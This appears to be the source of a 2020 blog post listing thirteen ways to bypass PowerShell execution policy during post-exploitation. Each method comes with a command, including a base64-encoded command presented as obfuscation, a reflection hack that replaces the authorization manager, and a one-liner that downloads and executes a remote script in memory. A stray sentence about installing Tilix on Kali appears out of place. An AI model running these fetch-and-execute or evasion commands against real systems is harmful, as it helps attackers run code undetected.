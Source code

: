 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1><b>Intro</b></h1>

PowerShell is an essential component of any Windows environment and can be a powerful tool in the hands of a hacker. During post-exploitation, PowerShell scripts can make privilege escalation and pivoting a breeze, but its execution policy can put a damper on even the best-laid plans. There are a variety of methods, however, that can be used to bypass PowerShell execution policy.

<h3><b>PowerShell Execution Policy Overview</b></h3>
The purpose of PowerShell's execution policy is to control how configuration files are loaded and how scripts are run. It's a safety feature that helps prevent malicious scripts from being executed. Policies can be set at the computer level, user level, and session level on Windows machines. It's important to note that the execution policy is not meant to be secure — it merely prevents users from unintentionally causing damage. As we'll soon find out, it can be bypassed in several ways.

There are seven types of execution policies in PowerShell. These are only enforced on Windows machines:

Unrestricted: This is the default policy for non-Windows machines; it means scripts will be run with a warning.

Restricted: This is the default for Windows machines; it prevents scripts from being run but allows individual commands.

Bypass: This means all scripts can run and there are no warnings.

AllSigned: This requires all scripts and configuration files to be signed by a trusted publisher — even those created on the local machine.

RemoteSigned: This is the default policy on Windows servers; requires a signature only from files downloaded from the internet.

Default: This simply sets the default execution policy.

Undefined: This is when there is no policy set in the current scope. If all scopes are Undefined, the execution policy defaults to Restricted.

To view the current execution policy, issue the following command in PowerShell:


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

Now that we've covered the basics, let's get started on some bypasses.


<h4><b>Step 1: Bypass Flag </b></h4>
Perhaps the easiest way to bypass execution policy is to use the Bypass flag. Doing so will run the script with no warnings or prompts.

To do so, open PowerShell and type:

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4><b>Step 2: Unrestricted Flag</b></h4>
Similar to the Bypass flag, we can use the Unrestricted flag to run our script, this time with a warning.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4><b>Step 3: Command Switch</b></h4>
We can use the command switch to issue commands and directly run a script. This will work for simple scripts, but more complex ones will usually have errors.
Tilix is available in Kali's APT repositories and can be installed using the below command.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4><b>Step 4: Encoded Command Switch</b></h4>
This method is similar to the command switch but encodes the script as a base64 encoded string. This can help avoid parsing errors as well as provide a layer of obfuscation.

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4><b>Step 5: Invoke-Command</b></h4>
The Invoke-Command method is nice in that it can be used to issue commands against remote machines when PowerShell remoting has been enabled.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4><b>Step 6: Invoke-Expression</b></h4>
We can use the Invoke-Expression method to pipe the contents of our script and be executed.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4><b>Step 7: Download from URL</b></h4>
PowerShell can be used to download a script from the internet, or from an attacker's machine, and then be executed without writing to disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4><b>Step 8: Paste</b></h4>
Another method to get around execution policy is to simply copy and paste the script into the interactive console. Again, this is useful for running quick scripts that aren't too complex.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4><b>Step 9: Echo & Pipe</b></h4>
We can also echo the contents of our script into PowerShell standard input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 10: Read & Pipe</b></h4>
Similar to the echo method, we can read the contents of our script and pipe it into PowerShell standard input.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 11: Process Scope</b></h4>
The execution policy can be applied at different levels, including the currently controlled process. We can change the execution policy for the current process.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4><b>Step 12: Current User Scope</b></h4>
This method is similar to the process scope but changes the execution policy for the current user. This works by modifying a registry key under the hood.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4><b>Step 13: Authorization Manager Swap</b></h4>
The final method we'll cover essentially overrides a function in PowerShell. The AuthorizationManager function will be replaced with a null value when our function is called, setting the execution policy for the session to Unrestricted, and allowing our script to run.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
